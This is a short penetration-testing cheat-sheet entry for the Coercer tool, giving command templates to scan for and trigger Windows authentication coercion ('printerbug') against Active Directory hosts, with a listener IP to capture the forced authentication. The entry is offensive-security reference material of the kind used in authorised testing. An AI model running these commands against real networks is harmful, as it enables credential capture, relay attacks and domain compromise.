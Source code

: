 
# Coercer

% printerbug, Active directory,https://github.com/p0dalirius/Coercer
#plateform/linux  #target/remote #cat/ATTACK/COERCE 

## scan
```
sudo coercer scan -u <user> -p '<password>' -d <domain> -t <target-ip> 
```

## coerce
```
sudo coercer coerce -u <user> -p '<password>' -d <domain> -l <listen_ip> -t <target-ip> -v --always-continue 
```